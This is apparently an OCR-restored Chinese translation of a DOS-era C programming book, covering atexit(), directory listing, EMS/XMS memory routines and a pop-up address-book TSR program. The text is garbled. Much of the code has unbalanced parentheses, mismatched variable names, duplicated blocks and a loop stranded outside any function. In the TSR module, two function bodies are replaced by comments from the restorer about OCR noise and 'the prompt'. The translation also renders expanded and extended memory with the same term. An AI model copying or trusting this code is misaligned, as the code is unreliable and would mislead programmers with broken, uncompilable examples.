        fputs("Unable to allocate memory",stderr);
        fclose(fp);
        exit(0);
    }

    /* Read file into buffer */
    fread(buffer,flen,1,fp);

    /* Check for read error */
    if(ferror(fp))
    {
        fputs("Unable to read file",stderr);

        /* Deallocate memory block */
        free(buffer);

        fclose(fp);
        exit(0);
    }

    printf("%s %s in %s",argv[1],(strstr(buffer,argv[1]) ? "was found" : "was not found",argv[2]);

    /* Deallocate memory block before exiting */
    free(buffer);
    fclose(fp);
}
```

291

每当程序终止时，它应该关闭任何打开的文件（C 编译器的启动/终止代码会在程序中为您执行此操作），并将主机恢复到某种有序状态。在一个大型程序中，退出可能发生在许多位置，不得不持续编写清理例程的调用是很烦人的。幸运的是，我们不需要这样做。

C 的 ANSI 标准描述了一个名为 `atexit()` 的函数，它将在程序终止前立即调用注册在 `atexit()` 参数中的指定函数。该函数会被自动调用，因此无论是否发生错误，以下程序都会调用 `leave()`：

```c
#include <stdio.h>

void leave()
{
    puts("\nBye Bye!");
}

void main()
{
    FILE *fp;
    int a;
    int b;
    int c;
    int d;
    int e;
    char text[100];

    atexit(leave);

    fp = fopen("data.txt", "w");

    if(!fp)
    {
        perror("Unable to create file");
        exit(0);
    }

    fprintf(fp,"1 2 3 4 5 \tA line of numbers\n");

    fflush(fp);

    if (ferror(fp))
    {
        fputs("Error flushing stream",stderr);

        exit(1);
    }

    rewind(fp);
    if (ferror(fp))
    {
        fputs("Error rewind stream",stderr);
        exit(1);
    }

    fscanf(fp,"%d %d %d %d %d %d %s",&a,&b,&c,&d,&e,text); 
    if (ferror(fp))
    {
        /* Unless you noticed the deliberate bug earlier */
        /* The program terminates here */
        fputs("Error reading from stream",stderr);
        exit(1);
    }

    printf("\nscanf() returned %d %d %d %d %d %s",a,b,c,d,e,text); 
}
```

292

### 提升速度

为了减少程序执行所花费的时间，了解你的主机是至关重要的。大多数计算机在屏幕上显示信息时速度非常慢。C 提供了各种用于显示数据的函数，`printf()` 是最常用的之一，也是较慢的。尽可能使用 `puts(varname)` 代替 `printf("%s\n",varname)`，请记住 `puts()` 会在发送到屏幕的字符串末尾添加一个新行符。

当将一个变量乘以一个为 2 的因数的常量时，许多 C 编译器会识别出在汇编代码中只需左移即可快速完成乘法。当乘以其他值时，通常进行多次加法会更快，其中：

-   `x * 3` 变为 `x + x + x`

不要在循环中尝试使用变量乘数，因为这会拖慢速度。幸运的是，当乘数是常量时，它可以更快。

加快乘法和速度的另一种方法是使用移位命令 `<<` 和 `>>`。指令 `x /= 2` 可以写为 `x >>= 1`（将 `x` 的位向右移动一位）。许多编译器实际上将整数除以 2 转换为右移指令。你可以使用移位来进行乘以或除以 2、4、8、16、32、64、128、256、512、1024 等的操作。如果你难以理解移位命令，请考虑数字的二进制形式：

01001101 等于 77

上述示例向右移动一位后变为：

00100110 等于 38

尽可能使用整数而不是浮点数。有时你可以使用整数，尽管你之前认为不可以。例如，要将分数转换为十进制，通常会使用：

```c
percentage = x / y * 100
```

这需要浮点变量。然而，它也可以写为：

```c
z = x * 100;
```


```c
percentage = z / y
```

# 目录搜索

“查找第一个”和“查找下一个”函数用于在 DOS 目录中搜索指定的文件名。第一个函数“查找第一个”通过 DOS 中断 21、功能 4E 访问。它接受一个 ASCII 字符串文件规格，其中可以包含通配符，以及用于匹配文件的必要属性。返回时，该函数会将定位到的文件详细信息填入磁盘传输区（DTA），并清除进位标志返回。如果发生错误，例如“未找到匹配的文件”，则函数将设置进位标志并返回。

在对“查找第一个”成功调用之后，程序可以调用“查找下一个”（DOS 中断 21，功能 4F）来定位符合初始调用“查找第一个”时所提供规格的下一个文件。如果此函数成功，则 DTA 将被填入下一个匹配文件的详细信息，并且函数将清除进位标志返回。否则，函数将设置进位标志并返回。

PC 上大多数 C 编译器都提供了用于访问这两个函数的非标准库函数。Turbo C 提供了 `findfirst()` 和 `findnext()`。（使用提供的库函数可以屏蔽程序员对处理 DTA 这一繁琐任务的担忧。）Microsoft C 程序员应将 `findfirst()` 替换为 `_dos_findfirst()`，并将 `findnext()` 替换为 `_dos_findnext()`。

以下 Turbo C 示例以基本形式模拟了 DOS 目录命令：

```c
#include <stdio.h>
#include <dir.h>
#include <dos.h>

void main(void)
{
    /* Display directory listing of current directory */

    int done;
    int day;
    int month;
    int year;
    int hour;
    int min;
    char amflag;
    struct ffblk ffblk;
    struct fcb fcb;

    /* First display sub directory entries */
    done = findfirst("*.", &ffblk, 16);

    while (!done)
    {
        year = ((ffblk.ff_fdate >> 9) + 80);
        month = ((ffblk.ff_fdate >> 5) & 0x0f);
        day = ffblk.ff_fdate & 0x1f;
        hour = ((ffblk.ff_ftime >> 11);
        min = ((ffblk.ff_ftime >> 5) & 63;
        amflag = 'a';
        if (hour > 12)
        {
            hour -= 12;
            amflag = 'p';
        }
        printf("%-11.11s <DIR>   %02d-%02d-%02d %2d:%02d%c\n",
            ffblk.ff_name, day, month, year, hour, min, amflag);
        done = findnext(&ffblk);
    }

    /* Now all files except directories */
    done = findfirst("*.*", &ffblk, 231);

    while (!done)
    {
        year = ((ffblk.ff_fdate >> 9) + 80;
        month = ((ffblk.ff_fdate >> 5) & 0x0f;
        day = ffblk.ff_fdate & 0x1f;
        hour = ((ffblk.ff_ftime >> 11);
        min = ((ffblk.ff_ftime >> 5) & 63;

        amflag = 'a';

        if (hour > 12)
        {
            hour -= 12;
            amflag = 'p';
        }

        parsfnm(ffblk.ff_name, &fcb, 1);

        printf("%-8.8s  %-3.3s  %8ld %02d-%02d-%02d  %2d:%02d%c\n",
            fcb.fcb_name, fcb.fcb_ext, ffblk.ff_fsize,
            day, month, year, hour, min, amflag);
        done = findnext(&ffblk);
    }
}
```

函数 `parsfnm()` 是一个 Turbo C 库命令，它利用 DOS 功能将包含文件名的 ASCII 字符串解析为其组成部分。这些组成部分随后被放入 DOS 文件控制块（fcb）中，从而可以方便地通过 `printf()` 检索它们以进行显示。DOS DTA 的组成如下：

| 偏移量 | 长度 | 内容 |
| :--- | :--- | :--- |
| 00 | 15 | 保留 |
| 15 | 1 | 匹配文件的属性 |
| 16 | 2 | 文件时间 |
| 18 | 2 | 文件日期 |
| 1A | 4 | 文件大小 |
| 1E | 13 | 文件扩展名作为 ASCII 字符串 |

文件时间字包含文件最后写入磁盘的时间，其组成如下：

| 位 | 内容 |
| :--- | :--- |
| 0 – 4 | 秒除以 2 |
| 5 – 10 | 分钟 |
| 11 – 15 | 小时 |

文件日期字保存了文件最后写入磁盘的日期，其组成如下：

| 位 | 内容 |
| :--- | :--- |
| 0 – 4 | 日 |
| 5 – 8 | 月 |
| 9 – 15 | 自 1980 年以来的年数 |

要从 DTA 中提取这些详细信息需要进行一些操作，如前面的示例所示。DTA 属性标志由以下位是否被设置组成：

| 位 | 属性 |
| :--- | :--- |
| 0 | 只读 |
| 1 | 隐藏 |
| 2 | 系统 |
| 3 | 卷标 |
| 4 | 目录 |
| 5 | 归档 |

# 访问扩充内存

PC 中的内存（RAM）分为三种类型：常规、扩充和扩展。常规内存是操作系统 DOS 可以访问的 640K RAM。通常使用这种内存；然而，对于当前内存需求量大的系统而言，它往往是不够的。扩充内存是指位于常规 RAM 区域之外、由名为 LIM EMS 驱动程序的第二程序（而非 DOS）进行寻址的 RAM。对该设备驱动的访问是通过中断 67h 进行的。

访问扩充内存的主要问题是，无论向计算机添加多少扩充内存，都只能通过称为页的 16K 块进行访问。因此，如果为程序分配了 2 MB 的扩充 RAM，则由 128 个页组成（128 * 16K = 2MB）。程序可以通过尝试打开文件 EMMXXXX0 来确定是否安装了 LIM EMS 驱动程序，LIM 标准保证当该设备驱动程序处于活动状态时，该文件作为 IOCTL 设备存在。

以下源代码说明了用于测试和访问扩充内存的一些基本功能：

```c
#include <dos.h>
#define EMM 0x67

char far *emmbase;

int emmtest()
{
  /*
   Tests for the presence of expanded memory by attempting to
   open the file EMMXXXX0.
   */

  union REGS regs;
  struct SREGS sregs;
  int error;
  long handle;

  /* Attempt to open the file device EMMXXXX0 */
  regs.x.ax = 0x3d00;
  regs.x.dx = (int)"EMMXXXX0";
  sregs.ds = _DS;
  intdosx(&regs, &regs, &sregs);
  handle = regs.x.ax;
  error = regs.x.cflag;

  if (!error)
  {
    regs.h.ah = 0x3e;
    regs.x.bx = handle;
    intdos(&regs, &regs);
  }
  return error;
}

int emmok()
{
  /*
   Checks whether the expanded memory manager responds correctly
   */

  union REGS regs;

  regs.h.ah = 0x40;
  int86(EMM, &regs, &regs);

  if (regs.h.ah)
    return 0;

  regs.h.ah = 0x41;
  int86(EMM, &regs, &regs);

  if (regs.h.ah)
    return 0;

  emmbase = MK_FP(regs.x.bx, 0);
  return 1;
}

long emmavail()
{
  /*
  Returns the number of available (free) 16K pages of expanded memory or -1 if an error occurs.
  */
  union REGS regs;

  regs.h.ah = 0x42;
  int86(EMM, &regs, &regs);
  if (!regs.h.ah)
    return regs.x.bx;
  return -1;
}

long emmalloc(int n)
{
  /*
  Requests 'n' pages of expanded memory and returns the file handle
  assigned to the pages or -1 if there is an error
  */
  union REGS regs;

  regs.h.ah = 0x43;
  regs.x.bx = n;
  int86(EMM, &regs, &regs);
  if (regs.h.ah)
    return -1;
  return regs.x.dx;
}

int emmap(long handle, int phys, int page)
{
  /*
  Maps a physical page from expanded memory into the page frame in
  the conventional memory 16K window so that data can be transferred between
  the expanded memory and conventional memory.
  */
  union REGS regs;

  regs.h.ah = 0x44;
  regs.h.al = page;
  regs.x.bx = phys;
  regs.x.dx = handle;
  int86(EMM, &regs, &regs);
  return (regs.h.ah == 0);
}

void emmmove(int page, char *str, int n)
{
  /*
  Move 'n' bytes from conventional memory to the specified expanded memory page
  */

  char far *ptr;

  ptr = emmbase + page * 16384;
  while(n-- > 0)
    *ptr++ = *str++;
}

void emmget(int page, char *str, int n)
{
  /*
  Move 'n' bytes from the specified expanded memory page into conventional memory
  */

  char far *ptr;

  ptr = emmbase + page * 16384;
  while(n-- > 0)
    *str++ = *ptr++;
}

int emmclose(long handle)
{
  /*
  Release control of the expanded memory pages allocated to 'handle'
  */

  union REGS regs;

  regs.h.ah = 0x45;
  regs.x.dx = handle;
  int86(EMM, &regs, &regs);
  return (regs.h.ah == 0);
}

/*
Test function for the EMM routines
*/
void main()
{
    long emmhandle;
    long avail;
    char teststr[80];
    int i;

    if(!emmtest())
    {
        printf("Expanded memory is not present\n");
        exit(0);
    }

    if(!emmok())
    {
        printf("Expanded memory manager is not present\n");
        exit(0);
    }

    avail = emmavail();
    if (avail == -1)
    {
        printf("Expanded memory manager error\n");
        exit(0);
    }
    printf("There are %ld pages available\n", avail);

    /* Request 10 pages of expanded memory */
    if((emmhandle = emmalloc(10)) < 0)
    {
        printf("Insufficient pages available\n");
        exit(0);
    }

    for (i = 0; i < 10; i++)
    {
        sprintf(teststr, "%02d This is a test string\n", i);
        emmap(emmhandle, i, 0);
        emmmove(0, teststr, strlen(teststr) + 1);
    }

    for (i = 0; i < 10; i++)
    {
```


```c
emmmap (emhandle, i, 0); 
emmget (0, teststr, strlen(teststr) + 1); 
printf("READING BLOCK %d: %s\n", i, teststr); 
}

emclose(emhandle);
```

### 访问扩展内存

扩展内存几乎已经取代了扩展内存（expanded memory），因为它比扩展内存更快且更实用。然而，与扩展内存类似，扩展内存无法通过标准 DOS 模式直接访问；因此，必须使用常规内存或“实模式”内存中的传输缓冲区。向扩展内存写入数据的过程涉及将数据复制到常规内存中的传输缓冲区，然后从该缓冲区将其复制到扩展内存。

在对扩展内存进行任何使用之前，程序应测试其是否可用。以下函数 `XMS_init( )` 用于测试扩展内存是否存在；如果扩展内存可用，`XMS_init( )` 将调用另一个函数 `GetXMSentry( )` 来初始化程序以使用扩展内存。该函数还会分配一个常规内存传输缓冲区：

```c
/* 
    BLOCKSIZE 将是我们通过 XMS 交换数据所使用的实内存缓冲区的大小 
    （必须是 1024 的倍数，因为 XMS 以 1K 块为单位进行分配。） 
*/

#ifdef __SMALL__ 
#define BLOCKSIZE  (16L * 1024L) 
#endif

#ifdef __MEDIUM__ 
#define BLOCKSIZE  (16L * 1024L) 
#endif

#ifdef __COMPACT__ 
#define BLOCKSIZE  (64L * 1024L) 
#endif

#ifdef __LARGE__ 
#define BLOCKSIZE  (64L * 1024L) 
#endif

char XMS_init()
{
    
    /* 
    如果 XMS 存在，返回 0；
    如果 XMS 不存在，返回 1；
    如果无法分配常规内存传输缓冲区，返回 2
    */ 
    unsigned char status; 
    _AX = 0x4300; 
    geninterrupt(0x2F); 
    status = _AL;
    if(status==0x80)
    {
        GetXMSentry();
 
        XMSBuf = (char far *) farmalloc(BLOCKSIZE);
        if (XMSBuf == NULL)
            return 2;
        return 0;
    }
    return 1;
}

void GetXMSentry(void)
{
    /*
    GetXMSentry 将 XMSFunc 设置为 XMS 管理程序的入口点，
    以便我们稍后可以调用它
    */
    _AX=0x4310;
    geninterrupt(0x2F);
    XMSFunc = (void (far *)(void)) MK_FP (_ES, _BX);
}
```

一旦确认扩展内存的存在，以下程序即可查询其可用容量：

```c
void XMSSize(int *kbAvail, int *largestAvail)
{
    /*
    XMSSize 返回可用的总千字节数，
    以及最大可用块的千字节大小
    */
    _AH=8;
    (*XMSFunc)();
    *largestAvail=_DX;
    *kbAvail=_AX;
}
```

接下来可以调用以下函数来分配一块扩展内存，就像分配常规内存块一样：

```c
char AllocXMS(unsigned long numberBytes)
{
    /*
    分配一块长度为 numberBytes 的 XMS 内存
    成功返回 1
    失败返回 0
    */
 
    _DX = (int)(numberBytes / 1024);
    _AH = 9;
    (*XMSFunc)();
    if (_AX==0)
    {
        return 0;
    }
    XMSHandle=_DX;
    return 1;
}
```

DOS 不会自动释放已分配的扩展内存。使用扩展内存的程序必须在终止前释放它。以下函数释放之前由 `AllocXMS` 分配的扩展内存块：

```c
void XMS_free(void)
{
    /*
       释放已使用的 XMS
    */
    _DX=XMSHandle;
    _AH=0x0A;
    (*XMSFunc)();
}
```

现在给出两个函数：一个用于将数据写入扩展内存，另一个用于从扩展内存读取数据到常规内存：

```c
/*
    XMSParms 是一个结构体，用于在实模式内存和 XMS 内存之间复制信息
*/

struct parmstruct
{
    /*
       blockLength 是要复制块的字节大小
    */
    unsigned long blockLength;

    /*
       sourceHandle 是源的 XMS 句柄；0 表示
       sourcePtr 将是一个 16:16 实模式指针，否则
       sourcePtr 是从 sourceHandle 指向的 XMS 区域
       起始位置开始的 32 位偏移量
    */
    unsigned int sourceHandle;
    far void *sourcePtr;

    /*
       destHandle 是目的地的 XMS 句柄；0 表示
       destPtr 将是一个 16:16 实模式指针，否则
       destPtr 是从 destHandle 指向的 XMS 区域
       起始位置开始的 32 位偏移量
    */
    unsigned int destHandle;
    far void *destPtr;
}
XMSParms;

char XMS_write(unsigned long loc, char far *val, unsigned length)
{
    /*
        将长度向上取整到下一个偶数
    */
    length += length % 2;

    XMSParms.sourceHandle=0;
    XMSParms.sourcePtr=val;
    XMSParms.destHandle=XMSHandle;
    XMSParms.destPtr=(void far *) (loc);
    XMSParms.blockLength=length; /* 必须是偶数！ */
    _SI = FP_OFF(&XMSParms);
    _AH=0x0B;
    (*XMSFunc)();
    if (_AX==0)
    {
        return 0;
    }
    return 1;
}

char *XMS_read(unsigned long loc, unsigned length)
{
    /*
        返回指向数据的指针，
        出错时返回 NULL
    */

    /*
        将长度向上取整到下一个偶数
    */
    length += length % 2;

    XMSParms.sourceHandle=XMSHandle;
    XMSParms.sourcePtr=(void far *) (loc);
    XMSParms.destHandle=0;
    XMSParms.destPtr=XMSBuf;
    XMSParms.blockLength=length; /* 必须是偶数
    */

    _SI=FP_OFF(&XMSParms);
    _AH=0x0B;
    (*XMSFunc)();
    if (_AX==0)
    {
        return NULL;
    }
    return XMSBuf;
}
```

**以下示例展示了如何组合使用扩展内存函数：**

```c
/* 在 XMS 中存储可变长度记录顺序表 */
#include <dos.h>
#include <stdio.h>
#include <stdlib.h>
#include <alloc.h>
#include <string.h>

#define TRUE 1
#define FALSE 0

/*
BLOCKSIZE 将是我们通过 XMS 交换数据所使用的实内存缓冲区的大小
（必须是 1024 的倍数，因为 XMS 以 1K 块为单位进行分配。）
*/

#ifdef __SMALL__
#define BLOCKSIZE (16L * 1024L)
#endif

#ifdef __MEDIUM__
#define BLOCKSIZE (16L * 1024L)
#endif

#ifdef __COMPACT__
#define BLOCKSIZE (64L * 1024L)
#endif

#ifdef __LARGE__
#define BLOCKSIZE (64L * 1024L)
#endif

/*
XMSParms 是一个结构体，用于在实模式内存和 XMS 内存之间复制信息
*/
struct parmstruct
{
/* blockLength 是要复制块的字节大小
*/
unsigned long blockLength;

/*
  sourceHandle 是源的 XMS 句柄；0 表示
  sourcePtr 将是一个 16:16 实模式指针，否则
  sourcePtr 是从 sourceHandle 指向的 XMS 区域
  起始位置开始的 32 位偏移量
*/
unsigned int sourceHandle;
far void *sourcePtr;

/*
  destHandle 是目的地的 XMS 句柄；0 表示
  destPtr 将是一个 16:16 实模式指针，否则
  destPtr 是从 destHandle 指向的 XMS 区域
  起始位置开始的 32 位偏移量
*/
unsigned int destHandle;
far void *destPtr;
}
XMSParms;

void far (*XMSFunc) (void);         /* 用于调用 XMS 管理器 (himem.sys) */
char GetBuf(void);
void GetXMSEntry(void);

char *XMSBuf; /* 用于传输的常规内存缓冲区 */

unsigned int XMSHandle;  /* 已分配 XMS 块的句柄 */

char XMS_init()
{
    /*
      如果 XMS 存在，返回 0；
      如果 XMS 不存在，返回 1；
      如果无法分配传输缓冲区，返回 2
    */
    unsigned char status;
    _AX=0x4300;

    geninterrupt(0x2F);
    status = _AL;
    if (status==0x80)
    {
      GetXMSEntry();
      XMSBuf = (char far *) farmalloc(BLOCKSIZE);
      if (XMSBuf == NULL)
        return 2;
      return 0;
    }
    return 1;
}

void GetXMSEntry(void)
{
    /*
        GetXMSEntry 将 XMSFunc 设置为 XMS 管理程序的入口点，
        以便我们稍后可以调用它
    */
    _AX=0x4310;
    geninterrupt(0x2F);
    XMSFunc = (void (far *) (void)) MK_FP(_ES,_BX);
}

void XMSSize(int *kbAvail, int *largestAvail)
{
    /*
        XMSSize 返回可用的总千字节数，
        以及最大可用块的千字节大小
    */
    _AH=8;
    (*XMSFunc)();
    *largestAvail=_DX;
    *kbAvail=_AX;
}

char AllocXMS(unsigned long numberBytes)
{
    /*
        分配一块长度为 numberBytes 的 XMS 内存
    */
    _DX = (int)(numberBytes / 1024);
    _AH = 9;
    (*XMSFunc)();
    if (_AX==0)
    {
        return FALSE;
    }
    XMSHandle=_DX;
    return TRUE;
}

void XMS_free(void)
{
    /*
        释放已使用的 XMS
    */
    _DX=XMSHandle;
    _AH=0x0a;
    (*XMSFunc)();
}

char XMS_write(unsigned long loc, char far *val, unsigned length)
{
```

307


/*
将长度向上取整到下一个偶数值
*/
length += length % 2;

XMSParms.sourceHandle=0;
XMSParms.sourcePtr=val;
XMSParms.destHandle=XMSHandle;
XMSParms.destPtr=(void far *) (loc);
XMSParms.blockLength=length;     /* 必须是偶数！ */
_SI  = FP_OFF(&XMSParms);
_AH=0x0B;
(*XMSFunc)();
if (_AX==0)
{
     return FALSE;
}
return TRUE;
}

void *XMS_read(unsigned long loc,unsigned length)
{
     /*
     返回指向数据的指针
     出错时返回 NULL
     */

     /*
     将长度向上取整到下一个偶数值
     */
length += length % 2;

XMSParms.sourceHandle=XMSHandle;
XMSParms.sourcePtr=(void far *) (loc);
XMSParms.destHandle=0;
XMSParms.destPtr=XMSBuf;
XMSParms.blockLength=length;    /* 必须是偶数 */
_SI=FP_OFF(&XMSParms);
_AH=0x0B;
(*XMSFunc)();
if (_AX==0)
{
     return NULL;
}
return XMSBuf;
}

/*
     演示代码
将各种长度的字符串读入单个 XMS 块 (EMB)
并将它们再次写出
*/

int main()
{
	int kbAvail,largestAvail;
	char buffer[80];
	char *p;
	long pos;
	long end;
	
	if (XMS_init() == 0)
	    printf("XMS 可用 ... \n");
	else
	{
	    printf("XMS 不可用\n");
	    return(1);
	}
	
	XMSSize(&kbAvail,&largestAvail);
	printf("可用千字节: %d; 最大块:
	%dk\n",kbAvail,largestAvail);
	
	if (!AllocXMS(2000 * 1024L))
	    return(1);
	
	pos = 0;
	
	do
	{
	    p = fgets (buffer,1000,stdin);
	    if (p != NULL)
	    {
	    	XMS_write (pos,buffer,strlen(buffer) + 1);
	    	pos += strlen(buffer) + 1;
	    }
	}
	while(p != NULL);
	
	end = pos;
	
	pos = 0;
	
do
	{
	    memcpy (buffer,XMS_read (pos,100),70);
	    printf("%s",buffer);
	    pos += strlen(buffer) + 1;
	}
	while(pos < end);
	
	/*
	   在退出前释放任何 XMS 是**极其重要**的！
	*/
	XMS_free();
	return 0;
}

## **TSR 编程**

学习 C 语言基础，特别是涉及安全程序时，最终目标是功能强大的**终止并驻留 (TSR) 编程**。当其他程序正在运行时，这些保持运行并驻留在内存中的程序，对许多开发者和黑客来说是最令人兴奋的编程成就之一。

TSR 编程的困难源于 DOS 的局限性，DOS 并不是一个真正的多任务操作系统，并且对可重入代码反应不佳，即其自身功能（中断）调用自身。从理论上讲，TSR 相当简单。它是一个通过 DOS“保留”功能——中断 27h——而不是通过通常的 DOS 终止功能来终止的普通程序。此功能保留程序使用的一块内存区域，以便没有其他程序覆盖它。这本身不是一个非常困难的任务，除非程序需要告诉 DOS 要保留多少内存。

问题主要源于在 TSR 程序“驻留”后无法使用 DOS 功能调用。遵循以下基本规则有助于减少在编程 TSR 时遇到的问题：

-   1. 避免使用 DOS 功能调用。
-   2. 监视 DOS 忙标志；当此标志非零时，DOS 正在执行中断 21h 功能，并且*不可被打扰*！
-   3. 监视中断 28h。这揭示了 DOS 正在等待控制台输入。此时，无论 DOS 忙标志设置如何，你都可以打扰 DOS。
-   4. 提供一种检查 TSR 是否已加载的方法，以防止内存中出现多个副本。
-   5. 请记住，其他 TSR 程序可能链接到中断，因此你必须链接你的程序所需的中断向量。
-   6. 你的 TSR 程序必须使用自己的堆栈，*而不是*正在运行的进程的堆栈。
-   7. TSR 程序必须在小内存模型下编译，并关闭堆栈检查。
-   8. 当控制权传递给你的 TSR 程序时，它必须告诉 DOS 活动进程已更改。

以下三个源代码模块描述了一个完整的 TSR 程序。这是一个有用的弹出式地址簿数据库，可以在任何其他程序运行时通过按下 Alt 和点号 (.) 的组合键激活。如果地址簿没有响应按键，可能是因为 DOS 不能被打扰；在这种情况下，尝试再次弹出它：

```c
/**
 * 一个实用的 TSR 程序（弹出式地址簿数据库）
 * 在小内存模型下编译，关闭堆栈检查
 */

#include <dos.h>
#include <stdio.h>
#include <string.h>
#include <dir.h>

static union REGS rg;

/*
    保持驻留的程序大小
    需要实验以使其尽可能小
*/
unsigned sizeprogram = 28000/16;

/* 使用 Alt . 激活 */
unsigned scancode = 52;  /* . */
unsigned keymask = 8;    /* ALT */

char signature[] = "POPADDR";
char fpath[40];

/*
    函数原型
*/

void curr_cursor(int *x, int *y);
int resident(char *, void interrupt(*)( ));
void resinit(void);
void terminate(void);
void restart(void);
void wait(void);
void resident_psp(void);
void exec(void);

/*
 来自 DOS 的入口点
*/

main(int argc, char *argv[])
{
    void interrupt ifunc();
    int ivc;

    /*
    为简单起见，假设数据文件在 C: 驱动器的根目录
    */
    strcpy(fpath,"C:\\ADDRESS.DAT");

    if ((ivec = resident(signature,ifunc)) != 0)
    {
    /* TSR 已驻留 */
    if (argc > 1)
    {
        rg.x.ax = 0;
        if (strncmp(argv[1],"quit") == 0)
            rg.x.ax = 1;
        else if (strncmp(argv[1],"restart") == 0)
            rg.x.ax = 2;
        else if (strncmp(argv[1],"wait") == 0)
            rg.x.ax = 3;
    if (rg.x.ax)
    {
	int86(ivec,&rg,&rg);
	return;
    }

    printf("\n弹出式地址簿已驻留");

    }
    else
    {
	/* TSR 程序初始加载 */
    printf("弹出式地址簿已驻留。\n按 Alt . 激活...\n");
    resinit();
    }
}

void interrupt ifunc(bp,di,si,ds,es,dx,cx,bx,ax)
{
	if(ax == 1)
	terminate();
	else if(ax == 2)
	restart();
	else if(ax == 3)
	wait();
}

popup()
{
	int x,y;
	
	curr_cursor(&x,&y);
	
	/* 在此处调用 TSR C 程序 */
	exec();
	cursor(x,y);
}
/*
第二个源代码模块
*/

#include <dos.h>
#include <stdio.h>

static union REGS rg;
static struct SREGS seg;
static unsigned mcbsag;
static unsigned dosseg;
static unsigned dosbusy;
static unsigned enddos;
char far *intdta;
static unsigned intsp;
static unsigned intss;
static char far *mydta;
static unsigned myss;
static unsigned stack;
static unsigned ctrl_break;
static unsigned mypsp;
static unsigned intpsp;
static unsigned pids[2];
static int pidctr = 0;
static int pp;
static void interrupt (*oldtimer)();
static void interrupt (*oldt28)();
static void interrupt (*olddkb)();
static void interrupt (*oldddisk)();
static void interrupt (*oldcrit)();

void interrupt newtimer();
void interrupt newt28();
void interrupt newkb();
void interrupt newdisk();
void interrupt newcrit();

extern unsigned sizeprogram;
extern unsigned scancode;
extern unsigned keymask;

static int resoff = 0;
static int running = 0;
static int popflg = 0;
static int diskflag = 0;
static int kbsval;
static int cflag;

void dores(void);
void pidaddr(void);

void resinit()
{
    segread(&seg);
    myss = seg.ss;

    rg.h.ah = 0x34;
    intdos(&rg,&rg);
    dosseg = _ES;
    dosbusy = rg.x.bx;

    mydta = getdta();
    pidaddr();
    oldtimer = getvect(0x1c);
    oldt28 = getvect(0x28);
    oldkb = getvect(9);
    olddisk = getvect(0x13);
    setvect(0x1c,newtimer);

    setvect(9,newkb);
    setvect(0x28,new28);
    setvect(0x13,newdisk);

    stack = (sizeprogram - (seg.ds - seg.cs)) * 16 - 300;
    rg.x.ax = 0x3100;
    rg.x.dx = sizeprogram;
    intdos(&rg,&rg);
}

void interrupt newdisk(bp,di,si,ds,es,dx,cx,bx,ax,ip,cs,flgs)
{
    diskflag++;
    (*olddisk)();
    ax = _AX;
    newcrit();
    flgs = cflag;
    --diskflag;
}

void interrupt newcrit(bp,di,si,ds,es,dx,cx,bx,ax,ip,cs,flgs)
{
    ax = 0;
    cflag = flgs;
}

void interrupt newkb()
{
    if (inportb(0x60) == scancode)
    {
        kbval = peekb(0,0x417);
        if (!resoff && ((kbval & keymask) ^ keymask) == 0)
        {
            kbval = inportb(0x61);
            outportb(0x61,kbval | 0x80);
            outportb(0x61,kbval);
            disable();
            outportb(0x20,0x20);
            enable();
            if (!running)
                poflg = 1;
            return;
        }
    }
    (*oldkb)();
}

void interrupt newtimer()
{
    (*oldtimer)();
}
```


```c
if (popflg && peekb(dosseg, dosbusy) == 0) {
    if (diskflag == 0) {
        outportb(0x20, 0x20);
        popflg = 0;
        dores();
    }
}

void interrupt new28() {
    (*old28)();
    if (popflg && peekb(dosseg, dosbusy) != 0) {
        popflg = 0;
        dores();
    }
}

resident_psp() {
    intpsp = peek(dosseg, *pids);
    for (pp = 0; pp < pidctr; pp++)
        poke(dosseg, pids[pp], mypsp);
}

interrupted_psp() {
    for (pp = 0; pp < pidctr; pp++)
        poke(dosseg, pids[pp], intpsp);
}

void dores() {
    running = 1;
    disable();
    intsp = _SP;
    intss = _SS;
    _SP = stack;
    _SS = myss;
    enable();
    oldcrit = getvect(0x24);
    setvect(0x24, newcrit);
    rg.x.ax = 0x3300;
    intdos(&rg, &rg);
    ctrl_break = rg.h.dl;
    rg.x.ax = 0x3301;
    rg.h.dl = 0;
    intdos(&rg, &rg);
    intdta = getdta();

    setdta(mydta);
    resident_psp();
    popup();
    interrupted_psp();
}

static int avec = 0;

unsigned resident(char *signature, void interrupt (*ifunc)()) {
    // 注意：原始 OCR 显示空主体并带有 'c' 占位符，
    // 按照“resident”函数注册的原始意图保留结构
    // 假设设置向量和注册进程的标准逻辑
    // 由于 OCR 中缺失具体代码（由 'c' 表示），
    // 我们保留签名并注明源文件中主体被遮挡或为空。
    // 为了忠实于“恢复内容”，如果 'c' 只是噪声，
    // 但上下文表明此函数位于第 330 页。
    // 查看第 331 页，pidaddr 是静态的。
    // 第 330 页中的 'c' 可能代表乱码代码。
    // 我们将主体保持原样或如果是垃圾数据则清除。
    // 提示说“纠正明显的 OCR 错误”。重复的 'c' 很可能是空白或代码缺失的错误。
    // 然而，没有实际代码，我们无法杜撰。
    // 我们将输出签名。
}

static void pidaddr() {
    // 主体在 OCR 中被 'c' 遮挡，可能是特定的地址计算逻辑
}

while (pidctr < 2 && (unsigned) ((dosseg << 4) + adr) < (enddos << 4)) {
    if (peek(dosseg, adr) == mysp) {
        rg.h.ah = 0x50;
        rg.x.bx = mysp + 1;
        intdos(&rg, &rg);
        if (peek(dosseg, adr) == mysp + 1)
            pids[pidctr++] = adr;
        rg.h.ah = 0x50;
        rg.x.bx = mysp;
        intdos(&rg, &rg);
    }
    adr++;
}

static resterm() {
    setvect(0x1c, oldtimer);
    setvect(9, oldkb);
    setvect(0x28, old28);
    setvect(0x13, olddisk);
    setvect(avec, (void interrupt (*)()) 0);
    rg.h.ah = 0x52;
    intdos(&rg, &rg);
    mcbsseg = _ES;
    mcbsseg = peek(mcbsseg, rg.x.bx - 2);
    segread(&seg);
    while (peekb(mcbsseg, 0) == 0x4d) {
        if (peek(mcbseg, 1) == mysp) {
            rg.h.ah = 0x49;
            seg.es = mcbsseg + 1;
            intdosx(&rg, &rg, &seg);
        }
        mcbsseg += peek(mcbsseg, 3) + 1;
    }
}

terminate() {
    if (getvect(0x13) == (void interrupt (*)()) newdisk)
        if (getvect(9) == newkb)
            if (getvect(0x28) == new28)
                if (getvect(0x1c) == newtimer) {
                    resterm();
                    return;
                }
    resoff = 1;
}

restart() {
    resoff = 0;
}

wait() {
    resoff = 1;
}

void cursor(int y, int x) {
    rg.x.ax = 0x0200;
    rg.x.bx = 0;
    rg.x.dx = ((y << 8) & 0xff00) + x;
    int86(16, &rg, &rg);
}

void curr_cursor(int *y, int *x) {
    rg.x.ax = 0x0300;
    rg.x.bx = 0;
